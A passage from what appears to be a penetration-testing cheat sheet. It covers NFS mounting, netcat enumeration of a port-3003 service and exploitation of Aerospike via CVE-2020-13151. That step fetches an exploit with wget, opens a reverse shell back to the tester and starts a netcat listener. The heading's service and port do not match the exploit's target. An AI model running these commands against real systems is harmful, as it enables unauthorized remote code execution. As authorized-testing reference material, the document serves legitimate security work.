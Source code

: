     # Mount the NFS share
    sudo mount -t nfs -o vers=<version>,nolock <target_ip>:<share> <mount_point>
    

#### 1.4.17 3003: CGMS (possible)

**Enumeration**

    # Connect to the service
    nc -nv <target_ip> 3003
    
    # Get a list of available commands
    help
    
    # Check the version of the CGMS service
    version
    

**Exploitation (CVE-2020-13151)**
                This exploit targets Aerospike&#39;s REST API to gain remote code execution. Ensure that you have
                authorization before using this.

    # Download the exploit script
    wget https://raw.githubusercontent.com/b4ny4n/CVE-2020-13151/master/cve2020-13151.py
    
    # Run the exploit with appropriate parameters
    python3 cve2020-13151.py --ahost=<target_ip> --aport=3000 --pythonshell --lhost=<local_ip> --lport=443
    
    # Start a Netcat listener on your local machine
    nc -nlvp 443
    

**Possible Available Commands for Information Gathering**

    bins
    build
    build_os
    build_time
    cluster-name
    config-get
    config-set
    digests
    dump-cluster
    dump-fabric
    dump-hb
    dump-hlc
    dump-migrates
    dump-msgs
    dump-rw
    dump-si
    dump-skew
    dump-wb-summary
    eviction-reset
    feature-key
    get-config
    get-sl
    health-outliers